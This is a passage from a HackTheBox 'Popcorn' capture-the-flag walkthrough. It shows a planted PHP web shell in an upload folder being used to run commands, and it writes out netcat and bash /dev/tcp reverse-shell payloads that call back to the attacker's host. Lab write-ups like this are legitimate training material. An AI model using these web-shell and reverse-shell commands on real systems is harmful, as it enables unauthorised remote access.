 Follow the url, I can access to the upload folder at `http://10.10.10.6/torrent/upload/`

![](images/8.png)

### Gain Reverse Shell

Execute the backdoor and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[7.1:42.6]~/walkthrough/hackthebox/popcorn
└─$ curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Url encode payload with `hURL`

```
┌──(Hades㉿10.10.14.5)-[6.8:42.7]~
└─$ hURL -U 'nc -nv 10.10.14.5 443 -e /bin/sh'

Original    :: nc -nv 10.10.14.5 443 -e /bin/sh
URL ENcoded :: nc%20-nv%2010.10.14.5%20443%20-e%20%2Fbin%2Fsh
```

Execute payload

```
curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=nc%20-nv%2010.10.14.5%20443%20-e%20%2Fbin%2Fsh'
```

```
curl -G 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php' --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"
```
